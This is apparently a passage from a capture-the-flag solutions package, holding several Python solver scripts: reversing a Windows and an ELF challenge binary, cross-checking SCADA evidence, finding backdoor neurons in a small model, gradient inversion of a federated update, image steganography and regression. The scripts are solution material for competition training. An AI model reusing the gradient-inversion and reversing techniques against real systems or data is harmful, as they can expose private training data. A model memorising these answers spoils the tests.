    m = re.search(rb'x=Buffer\.from\("([0-9a-f]{64,})","hex"\)', blob)
    assert m, "RC4 hex blob not found"
    print(f"[*] Gate          : md5(profile)=={host[:16]}... "
          f"md5(term)=={code[:16]}...")
    print(f"[*] RC4 blob      : {len(m.group(1)) // 2} bytes")

    m = re.search(rb"service_code reference bound to '([^']+)'", blob)
    assert m, "provenance-bound term not found"
    term = m.group(1).decode()
    assert hashlib.md5(term.encode()).hexdigest() == code, \
        "provenance term does not satisfy D.code"
    print(f"[*] Bound term    : {term!r} (md5 matches D.code)")
    blob_hex = bytes.fromhex(
        re.search(rb'x=Buffer\.from\("([0-9a-f]{64,})","hex"\)',
                  blob).group(1).decode())
    return name, term, blob_hex


# ---------------------------------------------------------------- live derivation (mirrors A(term) in the binary)

def fetch_first_flight_date(term):
    api = ("https://en.wikipedia.org/w/api.php?action=query&list=search"
           "&format=json&srlimit=1&srsearch=" + urllib.parse.quote(term))
    title = json.loads(fetch(api))["query"]["search"][0]["title"]
    print(f"[*] Wikipedia     : search -> {title!r}")
    html = fetch("https://en.wikipedia.org/wiki/" +
                 urllib.parse.quote(title.replace(" ", "_"))).decode(
                     "utf-8", "replace")
    h = html.find("first_flight")
    window = html[h:h + 160] if h >= 0 else html
    m = re.search(r"([A-Za-z]+) (\d{1,2}), (\d{4})", window)
    assert m, "no Month D, YYYY date near first_flight"
    month, day, year = m.group(1), m.group(2), m.group(3)
    iso = (f"{year}-{MONTHS.index(month) + 1:02d}-{int(day):02d}")
    print(f"[*] First flight  : {month} {day}, {year} -> {iso}")
    return iso


def fetch_julian_day(iso):
    url = ("https://ssd-api.jpl.nasa.gov/jd_cal.api?format=jd.7&cd=" + iso)
    jd = json.loads(fetch(url))["jd"]
    print(f"[*] JPL jd_cal    : {iso} -> jd={jd}")
    return str(jd)


def rc4(key, data):
    s = list(range(256))
    j = 0
    for i in range(256):
        j = (j + s[i] + key[i % len(key)]) & 0xFF
        s[i], s[j] = s[j], s[i]
    i = j = 0
    out = bytearray()
    for b in data:
        i = (i + 1) & 0xFF
        j = (j + s[i]) & 0xFF
        s[i], s[j] = s[j], s[i]
        out.append(b ^ s[(s[i] + s[j]) & 0xFF])
    return bytes(out)


# ---------------------------------------------------------------- main

def main():
    blob = load_exe(sys.argv)
    assert blob[:2] == b"MZ", "not a Windows executable"
    _, term, blob_hex = parse_hidden(blob)

    iso = fetch_first_flight_date(term)
    jd = fetch_julian_day(iso)
    plain = rc4(jd.encode(), blob_hex)
    print(f"[*] RC4 plaintext : {plain!r}")
    assert re.fullmatch(rb"CSCTF\{[ -~]+\}", plain), \
        "decrypted blob is not a framed flag"
    print(f"\n[+] FLAG            : {plain.decode()}")


if __name__ == "__main__":
    main()
~~~~

### The Lock Box — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""the-lock-box: recover the gate's real pass phrase without running the binary.

Usage: python3 -I solve.py ../files/lockbox.zip

The 33-character phrase that `main` itself checks ("open sesame and mind the
tripwire", found by XORing its stored rodata table with 0x5b) is a decoy: it
only prints a taunt. The real check runs *before* main, as a constructor
registered in .init_array -- GCC/glibc constructors are invoked with
(argc, argv, envp) in rdi/rsi/rdx, so that function reads argv like a normal
command handler even though nothing in main ever calls it. It verifies a
44-byte phrase with a rolling XOR/ROL/ADD cipher against an embedded key and
ciphertext, and writes its verdict into a global that main later reads.

This script locates the real constructor among the .init_array entries
(skipping glibc's own frame_dummy trampoline), and inverts the cipher using
the key/ciphertext bytes stored right after the "LOCKBOX1," marker in
.rodata -- no execution of the binary involved.
"""
import struct
import sys
import zipfile
from pathlib import Path


def rol8(v, n):
    n &= 7
    return v if n == 0 else ((v << n) | (v >> (8 - n))) & 0xFF


def ror8(v, n):
    n &= 7
    return v if n == 0 else ((v >> n) | (v << (8 - n))) & 0xFF


src = Path(sys.argv[1])
elf = zipfile.ZipFile(src).read("lockbox") if src.suffix == ".zip" else src.read_bytes()

# --- locate .init_array and confirm the real constructor is registered there -------
# ELF64 header: e_phoff@0x20, e_shoff@0x28, e_phentsize/e_phnum@0x36, e_shentsize/e_shnum/e_shstrndx@0x3A
e_phoff, e_shoff = struct.unpack_from("<QQ", elf, 0x20)
e_phentsize, e_phnum, e_shentsize, e_shnum, e_shstrndx = struct.unpack_from("<HHHHH", elf, 0x36)
sections = [struct.unpack_from("<IIQQQQIIQQ", elf, e_shoff + i * e_shentsize) for i in range(e_shnum)]
shstrtab_off = sections[e_shstrndx][4]


def sh_name(sh):
    off = shstrtab_off + sh[0]
    return elf[off:elf.index(b"\0", off)].decode()


init_array = next(sh for sh in sections if sh_name(sh) == ".init_array")
offset, size = init_array[4], init_array[5]   # Elf64_Shdr: ..., sh_addr, sh_offset, sh_size
n_entries = size // 8
ctors = struct.unpack_from(f"<{n_entries}Q", elf, offset)
print(f".init_array has {n_entries} entries: {[hex(c) for c in ctors]}", file=sys.stderr)

# vaddr -> file offset for a PT_LOAD-mapped address (needed to read the constructor's code)
def to_file_offset(vaddr):
    for _, _, p_offset, p_vaddr, _, p_filesz, _, _ in (
            struct.unpack_from("<IIQQQQQQ", elf, e_phoff + i * e_phentsize) for i in range(e_phnum)):
        if p_vaddr <= vaddr < p_vaddr + p_filesz:
            return p_offset + (vaddr - p_vaddr)
    raise ValueError(f"no segment maps {vaddr:#x}")


real_ctor = None
for addr in ctors:
    off = to_file_offset(addr)
    # glibc's frame_dummy is "endbr64; jmp <rel8|rel32>" (opcode 0xE9/0xEB right after the 4-byte endbr64);
    # the planted constructor has a real prologue (push rbp / push rbx) there instead.
    if elf[off + 4] not in (0xE9, 0xEB):
        real_ctor = addr
        break
assert real_ctor is not None, "could not tell the planted constructor from frame_dummy"
print(f"planted constructor at {real_ctor:#x} (checked before main ever runs)", file=sys.stderr)

# --- recover key + ciphertext: follow the constructor's own `lea r11, [rip+disp32]` ---
# (encoded 4C 8D 1D <disp32 LE>) rather than guessing padding around the "LOCKBOX1," label.
ctor_off = to_file_offset(real_ctor)
window = elf[ctor_off:ctor_off + 0x100]
p = window.index(b"\x4C\x8D\x1D")
disp32 = struct.unpack_from("<i", window, p + 3)[0]
table_vaddr = real_ctor + p + 7 + disp32          # x86 RIP-relative: displacement is from the *next* instruction
table_off = to_file_offset(table_vaddr)
KEY, CIPHER = elf[table_off:table_off + 8], elf[table_off + 8:table_off + 8 + 44]
print(f"key table at {table_vaddr:#x}: key={KEY.hex()} cipher={CIPHER.hex()}", file=sys.stderr)

# --- invert the rolling cipher (recovered by reading the constructor's disassembly) -
# for i in 0..43: dl = rol8(phrase[i] ^ (esi & 0xFF), cl) + key[i & 7]; must equal cipher[i]
# esi starts at 0x5b, cl starts at 1 and steps by 3; esi advances by (i + edx) each round,
# where edx's low byte is cipher[i] once correct and its high bytes just carry esi's own.
esi, cl = 0x5B, 1
phrase = bytearray()
for i in range(44):
    esi_lo = esi & 0xFF
    rotated = (CIPHER[i] - KEY[i & 7]) & 0xFF
    phrase.append(ror8(rotated, cl) ^ esi_lo)
    esi = (esi + i + ((esi & 0xFFFFFF00) | CIPHER[i])) & 0xFFFFFFFF
    cl += 3

flag = phrase.decode()
assert flag.startswith("CSCTF{") and flag.endswith("}")
print(flag)
~~~~

### Operation Blackout — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""operation-blackout: assemble the marker only from fields on which the evidence agrees.

Usage: python3 -I solve.py ../files
flag = sha256("<fw_hdr>:<station>:<log ts>:<register>:<seed>")[:8], serialization from the statement.
"""
import hashlib, json, re, struct, sys
from pathlib import Path

d = Path(sys.argv[1])
xml = (d / "hmi_config.xml").read_text()
log = json.loads((d / "substation_log.json").read_text())

# --- station: XML <station_id>, log text, and alarm_override.dat (little-endian u16 at offset 6)
st_xml = int(re.search(r"<station_id>(0x[0-9A-Fa-f]+)</station_id>", xml).group(1), 16)
st_dat = struct.unpack("<H", (d / "alarm_override.dat").read_bytes()[6:8])[0]
st_log = int(re.search(r"substation (0x[0-9A-Fa-f]+)", json.dumps(log)).group(1), 16)
assert st_xml == st_dat == st_log, (st_xml, st_dat, st_log)

# --- register + count: the real FC16 on the wire (pcap, TCP 502), XML and log agree
pcap = (d / "scada_network.pcap").read_bytes()
off, wire = 24, None
while off + 16 <= len(pcap):
    incl = struct.unpack("<I", pcap[off + 8:off + 12])[0]
    pkt = pcap[off + 16:off + 16 + incl]
    off += 16 + incl
    tcp = pkt[14 + (pkt[14] & 15) * 4:]
    pay = tcp[(tcp[12] >> 4) * 4:]
    if struct.unpack(">H", tcp[2:4])[0] == 502 and len(pay) > 8 and pay[7] == 0x10:      # Modbus FC 16
        wire = struct.unpack(">HH", pay[8:12])                                           # start, quantity
reg = wire[0] - 0x9C41 + 40001                                                           # 0x9C41 == 40001
assert reg == int(re.search(r'start_address="(\d+)"', xml).group(1)) == 40001
assert "40001-40064" in json.dumps(log) and wire[1] == 64

# --- timestamp: log entry of the malicious FC16 write (also the first CRITICAL entry)
fc16 = next(e for e in log if "FC 0x10" in e["message"])["timestamp"]
first_crit = next(e for e in log if e["level"] == "CRITICAL")["timestamp"]
assert fc16 == first_crit, (fc16, first_crit)

# --- seed: XML and log agree
seed_xml = int(re.search(r"<ManifestSeed>(\d+)</ManifestSeed>", xml).group(1))
seed_log = next(e["manifest_seed"] for e in log if "manifest_seed" in e)
assert seed_xml == seed_log

# --- firmware: first 4 bytes as hex (NOT the "V3.2.1" string, not ascii)
fw = (d / "plc_firmware.bin").read_bytes()[:4].hex().upper()

text = f"0x{fw}:0x{st_xml:04X}:{fc16}:{reg}:{seed_xml}"
print("input :", text, file=sys.stderr)
print("CSCTF{" + hashlib.sha256(text.encode()).hexdigest()[:8] + "}")
~~~~

### Operation Dawn: The Sentry's Model — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""operation-dawn-the-sentrys-model: find the backdoor neurons of a 392-48-1 MLP and read their trigger as ASCII.

Usage: python3 -I solve.py ../files/authenticator.npz   (needs numpy; the model is only read)
"""
import sys
import numpy as np

z = np.load(sys.argv[1], allow_pickle=False)
W1, b1, W2, b2 = z["W1"], z["b1"], z["W2"], float(z["b2"])

# 1. Outliers: hidden units whose output weight and bias are far from the rest.
score = np.abs(W2) + np.abs(b1)
sus = [int(u) for u in np.argsort(-score)[:2]]
print("suspicious hidden units:", sus, "W2:", W2[sus], "b1:", b1[sus], file=sys.stderr)

for u in sorted(sus):
    w = W1[u]
    assert set(np.unique(w)) == {-1.0, 1.0}                  # a +/-1 template: fires only on one exact input
    x = np.where(w > 0, 1.0, -1.0)                           # the input the unit matches (+/-1 encoding)
    h = W1 @ x + b1
    print(f"unit {u}: pre-activation on its template = {h[u]:.0f} (others max {np.delete(h, u).max():.1f})", file=sys.stderr)
    text = bytes(np.packbits((w > 0).astype(np.uint8))).decode("latin1")   # 392 bits = 49 bytes, MSB first
    print(u, text)
~~~~

### Command Calendar Reconciliation — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""Rebuild the activations from the iCalendar export and POST the attestation.
Usage: solve.py http://HOST:PORT [--post]   (needs python-dateutil)"""
import sys, json, urllib.request
from datetime import datetime, timedelta, timezone
from dateutil.rrule import rrulestr
B = sys.argv[1]
get = lambda p: urllib.request.urlopen(B + p).read().decode()
brief = json.loads(get("/brief"))
P = lambda s: datetime.strptime(s, "%Y%m%dT%H%M%SZ")
F = lambda d: d.strftime("%Y-%m-%dT%H:%M:%SZ")
H0 = datetime.strptime(brief["horizon_start_utc"], "%Y-%m-%dT%H:%M:%SZ")
H1 = datetime.strptime(brief["horizon_end_utc"], "%Y-%m-%dT%H:%M:%SZ")
# parse VEVENTs (unfold lines)
lines = []
for l in get("/case.ics").replace("\r\n", "\n").split("\n"):
    if l.startswith((" ", "\t")) and lines: lines[-1] += l[1:]
    else: lines.append(l)
events, cur = [], None
for l in lines:
    if l == "BEGIN:VEVENT": cur = {}
    elif l == "END:VEVENT": events.append(cur); cur = None
    elif cur is not None and ":" in l:
        k, v = l.split(":", 1); cur.setdefault(k.split(";")[0], []).append(v)
masters, detached = {}, {}
for e in events:
    uid = e["UID"][0]
    if "RECURRENCE-ID" in e: detached[(uid, P(e["RECURRENCE-ID"][0]))] = e
    else: masters[uid] = e
out = []
used = set()
for uid, m in masters.items():
    s = P(m["DTSTART"][0]); dur = P(m["DTEND"][0]) - s
    ids = {x.replace(tzinfo=None) for x in rrulestr(m["RRULE"][0], dtstart=s.replace(tzinfo=timezone.utc))} if "RRULE" in m else {s}
    ids.add(s)                                           # DTSTART is always the first occurrence
    for r in m.get("RDATE", []): ids |= {P(x) for x in r.split(",")}
    for x in m.get("EXDATE", []): ids -= {P(y) for y in x.split(",")}   # EXDATE first
    for rid in sorted(ids):
        d = detached.get((uid, rid))
        if d:                                            # detached instance replaces the nominal one
            used.add((uid, rid)); st, en = P(d["DTSTART"][0]), P(d["DTEND"][0])
        else: st, en = rid, rid + dur
        if H0 <= st < H1:
            out.append({"uid": uid, "recurrence_id_utc": F(rid), "start_utc": F(st), "end_utc": F(en), "category": "EMERGENCY-RELAY"})
print('unused detached:', set(detached) - used, file=sys.stderr)
out.sort(key=lambda r: r["start_utc"])
rep = {"activations": out}
print(len(out), file=sys.stderr); print(json.dumps(rep))
if "--post" in sys.argv:
    q = urllib.request.Request(B + "/attest", json.dumps(rep).encode(), {"Content-Type": "application/json"})
    try: print(urllib.request.urlopen(q).read().decode())
    except urllib.error.HTTPError as ex: print(ex.code, ex.read().decode())
~~~~

### Operation Dawn: The Shared Model — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""Gradient inversion: recover the single training sample behind a federated update.
Usage: solve.py dispatch-authenticator.npz"""
import sys
import numpy as np

z = np.load(sys.argv[1], allow_pickle=False)
# sanity check: for one sample, grad_b2 = softmax(logits) - onehot(label)
p = np.exp(z["logits"]); p /= p.sum()
y = np.zeros(8); y[int(z["label"])] = 1
assert np.allclose(z["update_b2"], p - y), "update is not a raw single-sample gradient"
# grad_W1 = outer(grad_b1, x)  ->  x = grad_W1[i] / grad_b1[i] for any row with grad_b1[i] != 0
gb1, gW1 = z["update_b1"], z["update_W1"]
rows = np.where(np.abs(gb1) > 1e-12)[0]
xs = np.array([gW1[i] / gb1[i] for i in rows])
assert np.abs(xs - xs[0]).max() < 1e-9, "rows disagree"
# the input is the text as byte/255
print("".join(chr(int(round(v * 255))) for v in xs[0]))
~~~~

### The Reconnaissance Plate — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Operation Dawn: The Reconnaissance Plate (misc/easy)

The 256x256 photograph is quantised to multiples of 4: bits 0 and 1
of every channel are ~always 0 except in the first rows, where each
bit-plane carries an independent framed payload, read row-major over
the interleaved R,G,B values (MSB-first within each byte):

    uint32_be length || gzip(tar)

  * bit-plane 0 -> a practice plate ("Range card practice plate.
    Not for action."), annotation "DRILL SERIAL 11 ..." -- the decoy
    that plain LSB extraction finds first;
  * bit-plane 1 -> the reconnaissance plate (observation caption,
    annotation "RECON SERIAL 11 ...") -- the annotation the briefing
    asks for (serial 11 = annex entry 11, from an observation post).

The flag is built from the RECON annotation
"RECON SERIAL <n> <WORDS> CODE <check>": the RECON SERIAL / CODE
labels are stripped, and the flag is
CSCTF{<n>_<words lowercased, joined by '_'>_<check lowercased>} --
the same "<entry>_<words>_<check group>" shape used by the other
Operation Dawn annex entries.

Requires: numpy, Pillow.

Usage:
    python3 solve.py [recon-plate.png]
"""

import io
import re
import sys
import tarfile
import zlib

import numpy as np
from PIL import Image


def extract_plane(img, bit):
    bits = ((img >> bit) & 1).astype(np.uint8).reshape(-1)
    data = np.packbits(bits).tobytes()
    length = int.from_bytes(data[:4], "big")
    if data[4:6] != b"\x1f\x8b" or not (0 < length < len(data)):
        raise ValueError(f"bit-plane {bit}: no framed gzip payload")
    tar_bytes = zlib.decompressobj(31).decompress(data[4:4 + length])
    files = {}
    with tarfile.open(fileobj=io.BytesIO(tar_bytes)) as tar:
        for member in tar.getmembers():
            if member.isfile():
                files[member.name] = tar.extractfile(member).read().decode()
    return files


def main():
    path = sys.argv[1] if len(sys.argv) > 1 else "recon-plate.png"
    img = np.array(Image.open(path))
    print(f"[*] {path}: {img.shape[1]}x{img.shape[0]} {img.shape[2]} channels")

    payloads = {}
    for bit in (0, 1):
        files = extract_plane(img, bit)
        payloads[bit] = files
        print(f"[*] bit-plane {bit}:")
        for name in sorted(files):
            print(f"      {name}: {files[name].strip()}")

    # The wanted annotation is the reconnaissance one, not the drill:
    # its annotation starts with RECON and its caption is an actual
    # observation report (the other caption says "Not for action").
    chosen = None
    for bit, files in payloads.items():
        caption = files.get("plate/caption.txt", "")
        annotation = files.get("plate/annotation.txt", "")
        if annotation.startswith("RECON") and "Not for action" not in caption:
            chosen = (bit, annotation)
    if chosen is None:
        raise SystemExit("reconnaissance annotation not found")
    bit, annotation = chosen
    match = re.fullmatch(
        r"RECON SERIAL (\d+) (.+?) CODE ([0-9A-Fa-f]+)\s*", annotation)
    if not match:
        raise SystemExit(f"unexpected annotation format: {annotation!r}")
    serial, words, code = match.groups()
    flag = f"CSCTF{{{serial}_{'_'.join(words.lower().split())}_{code.lower()}}}"
    print(f"[*] selected bit-plane {bit} annotation: {annotation.strip()}")
    print(flag)


if __name__ == "__main__":
    main()
~~~~

### Watch List Audit — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Operation Dawn: Watch List Audit (misc/easy)

history.csv is a noiseless piecewise-linear export:

    score = intercept + sum(weight[j] * feature[j])   j = 0..9

with exactly one deployment (coefficient) change. Fitting all 500 rows
at once mixes the two rules and gives the wrong fingerprint; the task
is to locate the change, refit only the latest segment and apply it
to the 32 probes:

    q     = floor(1000 * score + 0.5)          (per probe, in row order)
    flag  = CSCTF{sha256(q0\\n q1\\n ... q31\\n as ASCII)}

The scan below is exhaustive: every split with >= 11 rows (the number
of unknowns) on both sides is fitted on both sides, and the split
minimising the worst residual wins. Noiseless data makes the winner
unambiguous (max residual ~1e-14, versus ~1e-1 for the runner-up).

Requires: numpy.

Usage:
    python3 solve.py [watch-list-audit.zip | extracted-dir]
"""

import csv
import hashlib
import io
import math
import os
import sys
import zipfile

import numpy as np


def load_tables(argv):
    here = os.path.dirname(os.path.abspath(__file__))
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        os.path.join(here, "..", "files", "watch-list-audit.zip"),
        os.path.join(here, "..", "..", "watch-list-audit.zip"),
        "watch-list-audit.zip",
        ".",
    ]
    for path in candidates:
        if os.path.isfile(path) and path.endswith(".zip"):
            print(f"[*] Loading {path}")
            with zipfile.ZipFile(path) as z:
                return (read_csv(z.read("history.csv")),
                        read_csv(z.read("probes.csv")))
        if os.path.isdir(path):
            h = os.path.join(path, "history.csv")
            p = os.path.join(path, "probes.csv")
            if os.path.isfile(h) and os.path.isfile(p):
                print(f"[*] Loading {path}")
                with open(h, "rb") as f:
                    hist = read_csv(f.read())
                with open(p, "rb") as f:
                    probes = read_csv(f.read())
                return hist, probes
    raise SystemExit("history.csv/probes.csv not found "
                     "(pass watch-list-audit.zip or the extracted dir)")


def read_csv(data):
    rows = list(csv.reader(io.StringIO(data.decode("ascii"))))
    return np.array([[float(x) for x in row] for row in rows[1:]])


def fit(X, y):
    """Least-squares [intercept, w0..w9]; returns (coef, max |residual|)."""
    A = np.column_stack([np.ones(len(X)), X])
    coef, *_ = np.linalg.lstsq(A, y, rcond=None)
    return coef, float(np.max(np.abs(y - A @ coef)))


def main():
    hist, probes = load_tables(sys.argv)
    X, y = hist[:, :10], hist[:, 10]
    n, unknowns = len(X), 11

    # 1. Exhaustive changepoint scan: exactly one change, no noise, so
    #    the true split is the only one fitting both sides exactly.
    results = []
    for split in range(unknowns, n - unknowns + 1):
        _, e_old = fit(X[:split], y[:split])
        _, e_new = fit(X[split:], y[split:])
        results.append((max(e_old, e_new), split))
    results.sort()
    (best_err, split), (second_err, _) = results[0], results[1]
    print(f"[*] Changepoint after observation {split} "
          f"(new rule starts at observation {split + 1} of {n})")
    print(f"[*] Split residuals: best max={best_err:.3e}, "
          f"runner-up max={second_err:.3e}")
    assert best_err < 1e-9 < second_err, "changepoint is not unambiguous"

    # 2. Refit on the latest segment only.
    coef, err = fit(X[split:], y[split:])
    print(f"[*] Latest rule (max residual {err:.3e} on "
          f"{n - split} rows):")
    print(f"    intercept = {coef[0]:.15g}")
    for j, w in enumerate(coef[1:]):
        print(f"    w{j}        = {w:.15g}")

    # 3. Apply to the probes, quantise and fingerprint as in README.txt.
    A = np.column_stack([np.ones(len(probes)), probes])
    qs = [math.floor(1000.0 * s + 0.5) for s in A @ coef]
    payload = "".join(f"{q}\n" for q in qs).encode("ascii")
    digest = hashlib.sha256(payload).hexdigest()
    print(f"[*] Quantised probes: {qs}")
    print(f"[*] SHA-256: {digest}")
    print(f"CSCTF{{{digest}}}")


if __name__ == "__main__":
    main()
~~~~
